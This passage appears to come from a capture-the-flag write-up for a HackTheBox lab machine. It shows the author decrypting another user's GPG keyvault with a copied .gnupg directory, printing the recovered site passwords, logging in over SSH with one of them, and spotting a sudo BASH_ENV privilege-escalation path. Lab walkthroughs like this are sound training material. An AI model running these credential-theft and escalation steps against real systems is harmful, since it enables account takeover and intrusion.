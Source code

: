 * an API key in b64: `BRhzmLIuAh9UG8xXCPuv0nU799gvdh49VjFDvETwY6k=`

* a sqlite3 database named laravel with a root username and no password

* a REDIS service running on port 6379 (POSSIBLE PRIV ESC later: [https://hackviser.com/tactics/pentesting/services/redis](https://hackviser.com/tactics/pentesting/services/redis))

* a mailing service on port 2525

now I will try to decrypt the gpg file, to do this I will copy `.gnupg` found in /home/hish which corresponds to the configuration and key storage directory used by GPG into the tmp directory where I can work:

`cp -r .gnupg /tmp/.zeroz`

I apply the correct rights:

`chmod -R 700 .zeroz`

finally I check if keys are present:

`gpg --homedir /tmp/.zeroz --list-secret-keys`

it’s good I can decrypt with this folder!

`gpg --homedir /tmp/.zeroz --output /tmp/.keys --decrypt /home/hish/backup/keyvault.gpg`

finally I display the result:

```
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

so the possible password would be `marineSPm@ster!!` I try the SSH connection:

`ssh hish@10.10.11.67`

and it works!

## PRIV ESC ROOT

linpeas gives me a good lead: sudo -l

```
[sudo] password for hish: 
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

here I see systeminfo but especially env\_keep+="ENV BASH\_ENV"

this means that when the user `hish` so me uses `sudo`, the environment variables `ENV` and `BASH_ENV` are not cleaned and so I can perform a bypass to execute bash commands

